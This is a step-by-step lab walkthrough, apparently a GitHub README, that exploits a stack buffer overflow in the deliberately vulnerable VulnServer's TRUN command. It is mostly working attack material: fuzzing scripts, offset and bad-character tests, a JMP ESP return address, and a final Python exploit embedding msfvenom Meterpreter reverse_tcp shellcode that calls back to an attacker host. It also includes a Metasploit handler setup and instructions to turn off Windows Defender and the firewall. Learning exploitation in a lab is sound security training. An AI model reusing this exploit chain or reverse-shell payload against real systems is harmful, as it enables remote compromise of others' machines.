

# Basic Buffer Overflow - VulnServer TRUN

A step-by-step walkthrough of exploiting the TRUN command buffer overflow vulnerability in VulnServer.


## Introduction

Welcome to my project exploring a classic Windows buffer overflow vulnerability using the TRUN command in VulnServer. This tutorial walks through the entire process from fuzzing to obtaining a Meterpreter shell - all with step-by-step explanations along the way.

VulnServer is an intentionally vulnerable Windows TCP server that's perfect for learning exploitation techniques. While it doesn't have any real functionality (it's vulnerable by design), it provides an excellent educational platform for practicing buffer overflow attacks in a controlled environment.

## Project Overview

In this project, we'll:
1. Set up our environment with VulnServer and Immunity Debugger
2. Fuzz the TRUN command to identify the vulnerability
3. Find the exact crash point and control EIP
4. Identify bad characters
5. Find a JMP ESP instruction to use
6. Generate and inject shellcode
7. Get a Meterpreter shell!

## Environment Setup

### Network Configuration
- **Target Machine**: Windows VM (IP: 192.168.177.130)
  - VulnServer running on port 9999
- **Attack Machine**: Kali Linux VM (IP: 192.168.177.141)
  - Used for sending exploits and catching shells

### Tools Used
- **VulnServer**: Our target vulnerable application
- **Immunity Debugger**: For analyzing the crash and memory
- **Kali Linux**: For running our exploitation scripts
- **Python**: For writing our exploits
- **Mona**: A powerful plugin for Immunity Debugger
- **Metasploit**: For shellcode generation and more

### Installing VulnServer
1. Download [VulnServer](https://github.com/stephenbradshaw/vulnserver/archive/refs/heads/master.zip)
2. Extract and run `vulnserver.exe` on your Windows machine

### Setting Up Immunity Debugger
1. Download [Immunity Debugger](https://www.softpedia.com/get/Programming/Debuggers-Decompilers-Dissasemblers/Immunity-Debugger.shtml) and install it
2. Install the [Mona.py](https://github.com/aymenmarjan/BufferOverflow-VulnServer/blob/main/mona.py) plugin by placing it in the PyCommands folder:
   ```
   C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands\
   ```


## Step 0: Preparing the Target Environment

Before beginning any exploitation, we need to properly prepare our target Windows environment:

1. **Disable Windows Defender**:
   - Open Windows Security
   - Go to "Virus & threat protection"
   - Click "Manage settings" under "Virus & threat protection settings"
   - Turn off "Real-time protection"

2. **Disable Windows Firewall**:
   - Open Control Panel
   - Go to "System and Security" > "Windows Defender Firewall"
   - Click "Turn Windows Defender Firewall on or off"
   - Select "Turn off Windows Defender Firewall" for all network types

3. **Verify VulnServer is Accessible**:
   - From your Kali machine, run: `nc -nv 192.168.177.130 9999`
   - You should see a welcome banner from VulnServer

These steps ensure our exploitation attempts won't be blocked by Windows security features.

## Step 1: Fuzzing the Application

We'll start by creating a fuzzing script to identify if and where the vulnerability exists using the SPIKE tool.

Create a `fuzzer.spk` file:

```spk
s_readline();
s_string("TRUN ");
s_string_variable("FUZZ");
```

Open `vulnserver.exe` with Immunity Debugger, click `F9` to start the server.


Run the fuzzer from our Kali machine against VulnServer to identify potential buffer overflow:

```bash
generic_send_tcp 192.168.177.130 9999 fuzzer.spk 0 0
```

Running this script, we'll see the application crash when we hit a certain buffer length with an `Access violation when executing [41414141]`. This confirms the vulnerability exists and gives us a starting point.



## Step 2: Finding the Crash Point

Once we've confirmed the crash, we need to determine exactly where the crash occurs.

After the application crashes in the Debugger, `Right click` on the `ESP` value in the Registers section > `Follow in Dump`, then note:

- The first address the fuzzing begins with: (In my case `0x00AFF1F0`)


- The last address the fuzzing ends with: (In my case `0X00AFFD98`)


Then calculate the difference:


So we've been able to make the application crash by fuzzing it with 2984 bytes (A's).

Let's now write our own Python script that will crash the program instead of using SPIKE:

```python
#!/usr/bin/python3
import socket

s = socket.socket()
s.connect(("192.168.177.130", 9999))

total_length = 2984

payload = [
        b"TRUN /.:/",
        b"A"*total_length
]

payload = b"".join(payload)

s.send(payload)

s.close()
```

When we run this while monitoring the application in Immunity Debugger, we'll see it crash with EIP filled with "A"s (41414141 in hex), confirming we can control the instruction pointer.


## Step 3: Finding the Exact Offset

Now we need to find exactly where in our buffer we're overwriting EIP. We'll use a cyclic pattern instead of just A's:

```python
#!/usr/bin/python3
import socket

s = socket.socket()
s.connect(("192.168.177.130", 9999))

# Create a cyclic pattern using MSF pattern_create
# In Kali: $ msf-pattern_create -l 2984

total_length = 2984

payload = [
        b"TRUN /.:/",
        b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv"              
]
 
payload = b"".join(payload)

s.send(payload)

s.close()
```

After the crash, we'll see a unique value in EIP (in my case: `386F4337`).


Now we can find where this occurs using:

```bash
msf-pattern_offset -l 2984 -q 386F4337
```

This will tell us the exact offset is `2003 bytes`.

## Step 4: Verifying Control of EIP

Let's verify we have precise control of EIP by crafting a buffer with:
- A padding of A's up to the offset
- B's (42424242) to overwrite EIP
- C's after to verify we can control what comes after EIP

```python
#!/usr/bin/python3
import socket

s = socket.socket()
s.connect(("192.168.177.130", 9999))

total_length = 2984
offset = 2003
New_EIP = b"BBBB"

payload = [
        b"TRUN /.:/",
        b"A"*offset,
        New_EIP,
        b"C"*(total_length-offset-len(New_EIP))
]

payload = b"".join(payload)

s.send(payload)

s.close()
```

In Immunity Debugger, we should see EIP filled with 42424242 (our "B"s) and the Stack filled with our "C"s - confirming we have precise control!


## Step 5: Checking for Bad Characters

When crafting shellcode, we need to avoid "bad characters" that might break our exploit. Let's test all possible bytes:

```python
#!/usr/bin/python3
import socket
import struct

all_characters = b"".join([ struct.pack('<B', x) for x in range(1, 256) ])

s = socket.socket()
s.connect(("192.168.177.130", 9999))

total_length = 2984
offset = 2003
New_EIP = b"BBBB"

payload = [
        b"TRUN /.:/",
        b"A"*offset,
        New_EIP,
        all_characters,
        b"C"*(total_length-offset-len(New_EIP)-len(all_characters))
]

payload = b"".join(payload)

s.send(payload)

s.close()
```

After examining memory in Immunity Debugger, we'll find only the null byte (0x00) is a bad character.


## Step 6: Finding a JMP ESP Instruction

Now we need to find a JMP ESP instruction to use as our return address. We'll use the Mona plugin in Immunity Debugger:

```
!mona jmp -r esp
```

This command finds all JMP ESP instructions. We'll use the address `0x62501203`.


Convert this hex address to its little-endian format using the `struct` Python built-in library:

```python
#!/usr/bin/python3
import socket
import struct 

s = socket.socket()
s.connect(("192.168.177.130", 9999))

total_length = 2984
offset = 2003
New_EIP = struct.pack("<I", 0x62501203)  # Little-endian conversion

payload = [
        b"TRUN /.:/",
        b"A"*offset,
        New_EIP,
        b"C"*(total_length-offset-len(New_EIP))
]

payload = b"".join(payload)

s.send(payload)

s.close()
```

After we execute this, we'll take control of execution with `ESP` pointing at our data.

## Step 7: Building the Final Exploit

Now we'll build our final exploit with:
1. Padding to reach EIP
2. JMP ESP address to gain control of execution
3. A NOP sled for stability
4. Our shellcode

### Why Add a NOP Sled?

A NOP sled (No Operation instructions) serves two important technical purposes:

1. **Memory Alignment**: Shellcode often requires proper alignment in memory. The NOP sled ensures that even if our calculations are slightly off, the processor will slide through the NOPs until it hits our shellcode.

2. **Stability Buffer**: Memory addresses can shift slightly between executions due to environment variables or system state. The NOP sled creates a "landing zone" that increases our chances of successful execution even with minor address variations.

3. **Encoder Padding**: When shellcode is encoded to avoid bad characters, the decoder stub sometimes needs space to work. NOPs provide this safe padding.

Technically, each NOP (0x90) instruction tells the processor "do nothing and move to the next instruction," creating a smooth pathway to our shellcode.

Generate shellcode with:
   
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.177.141 LPORT=4444 -b"\x00" -f py
```

Our final exploit:

```python
#!/usr/bin/python3
import socket
import struct 

s = socket.socket()
s.connect(("192.168.177.130", 9999))

total_length = 2984
offset = 2003
New_EIP = struct.pack("<I", 0x62501203)  # JMP ESP in little-endian format

nop_sled = b"\x90" * 16  # Create a runway of NOPs

# Shellcode generated with msfvenom
buf =  b""
buf += b"\xda\xc3\xd9\x74\x24\xf4\xba\x10\xf9\x4b\xe4\x5e"
buf += b"\x31\xc9\xb1\x59\x83\xc6\x04\x31\x56\x15\x03\x56"
buf += b"\x15\xf2\x0c\xb7\x0c\x7d\xee\x48\xcd\xe1\x66\xad"
buf += b"\xfc\x33\x1c\xa5\xad\x83\x56\xeb\x5d\x68\x3a\x18"
buf += b"\x51\xd9\xf1\x06\x5c\xda\x8d\x35\xb6\x15\x52\x15"
buf += b"\xfa\x34\x2e\x64\x2f\x96\x0f\xa7\x22\xd7\x48\x71"
buf += b"\x48\x38\x04\xd5\x39\x94\xb9\x52\x7f\x24\xbb\xb4"
buf += b"\x0b\x14\xc3\xb1\xcc\xe0\x7f\xbb\x1c\x83\xc8\xa3"
buf += b"\xcc\x18\x90\xf3\xed\xcd\xa4\x3d\x99\xcd\x97\x42"
buf += b"\x2b\xa6\xec\x37\xad\x6e\x3d\x88\x02\x4f\xf1\x05"
buf += b"\x5a\x88\x36\xf6\x29\xe2\x44\x8b\x29\x31\x36\x57"
buf += b"\xbf\xa5\x90\x1c\x67\x01\x20\xf0\xfe\xc2\x2e\xbd"
buf += b"\x75\x8c\x32\x40\x59\xa7\x4f\xc9\x5c\x67\xc6\x89"
buf += b"\x7a\xa3\x82\x4a\xe2\xf2\x6e\x3c\x1b\xe4\xd7\xe1"
buf += b"\xb9\x6f\xf5\xf4\xbe\x90\x05\xf9\xe2\x06\xc9\x34"
buf += b"\x1d\xd6\x45\x4e\x6e\xe4\xca\xe4\xf8\x44\x82\x22"
buf += b"\xfe\xdd\x84\xd4\xd0\x65\xc4\x2a\xd1\x95\xcc\xe8"
buf += b"\x85\xc5\x66\xd8\xa5\x8e\x76\xe5\x73\x3a\x7d\x71"
buf += b"\xbc\x12\x30\x0c\x54\x60\x33\x1e\xf9\xed\xd5\x70"
buf += b"\x51\xbd\x49\x31\x01\x7d\x3a\xd9\x4b\x72\x65\xf9"
buf += b"\x73\x59\x0e\x90\x9b\x37\x66\x0d\x05\x12\xfc\xac"
buf += b"\xca\x89\x78\xee\x41\x3b\x7c\xa1\xa1\x4e\x6e\xd6"
buf += b"\xd5\xb0\x6e\x27\x70\xb0\x04\x23\xd2\xe7\xb0\x29"
buf += b"\x03\xcf\x1e\xd1\x66\x4c\x58\x2d\xf7\x64\x12\x18"
buf += b"\x6d\xc8\x4c\x65\x61\xc8\x8c\x33\xeb\xc8\xe4\xe3"
buf += b"\x4f\x9b\x11\xec\x45\x88\x89\x79\x66\xf8\x7e\x29"
buf += b"\x0e\x06\x58\x1d\x91\xf9\x8f\x1d\xd6\x05\x4d\x0a"
buf += b"\x7f\x6d\xad\x0a\x7f\x6d\xc7\x8a\x2f\x05\x1c\xa4"
buf += b"\xc0\xe5\xdd\x6f\x89\x6d\x57\xfe\x7b\x0c\x68\x2b"
buf += b"\xdd\x90\x69\xd8\xc6\x23\x13\x91\xf9\xc4\xe4\xbb"
buf += b"\x9d\xc5\xe4\xc3\xa3\xfa\x32\xfa\xd1\x3d\x87\xb9"
buf += b"\xea\x08\xaa\xe8\x60\x72\xf8\xeb\xa0"

shellcode = buf

payload = [
        b"TRUN /.:/",
        b"A"*offset,
        New_EIP,
        nop_sled,
        shellcode,
        b"C"*(total_length-offset-len(New_EIP)-len(nop_sled)-len(shellcode))
]

payload = b"".join(payload)

s.send(payload)

s.close()
```

## Step 8: Catching the Shell

Before running our exploit, we need to set up a handler in Metasploit:

```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.177.141
set LPORT 4444
run
```

Once our handler is running, we execute our exploit script and... BOOM! We get a Meterpreter shell!


## Conclusion

And that's it! We've successfully:
1. Identified a buffer overflow vulnerability
2. Found the exact crash point
3. Gained control of EIP
4. Located usable instructions in memory
5. Injected our shellcode
6. Obtained a shell on the target system

This project demonstrates the classic buffer overflow exploitation technique in a controlled environment.

## References
- [VulnServer project](https://github.com/stephenbradshaw/vulnserver)
- [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
- [youtube guide](https://youtu.be/yJF0YPd8lDw?si=E8mIlgA1OL13We3t)
- [Buffer Overflow Tutorial](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
